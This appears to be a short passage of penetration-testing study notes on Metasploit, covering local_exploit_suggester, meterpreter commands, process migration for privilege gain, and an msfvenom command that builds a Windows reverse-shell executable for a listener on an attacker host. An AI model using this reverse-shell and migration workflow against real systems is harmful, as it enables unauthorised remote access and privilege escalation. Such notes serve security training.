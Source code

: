 - always use **local_exploit_suggester** when a session is already connected (CTRL+Z to put session to background, session to list them)
- when meterpreter console, use `getuid` to check current user
- If no access at all, always think about migrating to another process with more privileges (ps + migrate <\nb process>)
- **exploit/multi/handler** to handle payloads and wait for incoming connections

## MFSVenom

Combination of both msfpayload and encoder to create for example meterpreter reverse shell script

Example:
- When nc reverse shell produces instable shell, we may want to have a shell in meterpreter to use the `migrate` command to a more stable process. Therefore we could create a reverse meterpreter shell: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<\myhost> LPORT=<\myport> -f exe > shell.exe` To create a windows reverse shell executable. Then we would use msfconsole `exploit/multi/handler` , set the payload to `windows/meterpreter/reverse_tcp`, run it and run `shell.exe` on the target, migrate immediately